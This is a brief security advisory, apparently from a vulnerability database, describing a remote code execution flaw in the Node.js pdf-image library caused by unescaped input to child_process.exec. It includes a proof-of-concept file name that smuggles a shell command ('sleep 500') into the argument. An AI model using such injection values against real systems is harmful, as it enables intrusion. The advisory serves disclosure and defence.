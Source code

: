 [pdf-image](https://github.com/mooz/node-pdf-image)  is a library that provides an interface to convert PDF's pages to png files in Node.js by using ImageMagick.

Affected versions of this package are vulnerable to Remote Code Execution (RCE) due to the  `child_process.exec`  call lacking escaping on user input.
## Proof of Concept
```
var PDFImage = require("pdf-image").PDFImage;

var pdfImage = new PDFImage('"; sleep 500 #"');
pdfImage.getInfo();
```
## References
-   [HackerOne Report](https://hackerone.com/reports/781664)
-   [Vulnerable Code](https://github.com/mooz/node-pdf-image/blob/master/index.js#L27)